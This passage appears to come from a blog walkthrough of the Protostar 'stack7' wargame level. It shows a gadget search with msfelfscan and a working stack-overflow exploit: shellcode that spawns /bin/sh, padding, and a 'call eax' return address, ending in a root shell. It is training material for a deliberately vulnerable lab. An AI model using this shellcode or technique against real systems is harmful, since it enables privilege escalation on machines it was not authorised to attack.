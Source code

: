 We see that `-0x4c(%ebp)` is loaded into `$eax` right before the `ret`
instruction. This time, the binary does contain the gadget that we need.

```shell
$ /usr/share/framework2/msfelfscan -f stack7 -j eax
0x080484bf   call eax
0x080485eb   call eax
```

We use the same payload from stack 5, with the modified `call eax` instruction
which gives us successful exploitation.

```shell
user@protostar:~$ python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 22 + '\xbf\x84\x04\x08'" | /opt/protostar/bin/stack7
# whoami
root
```

[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/
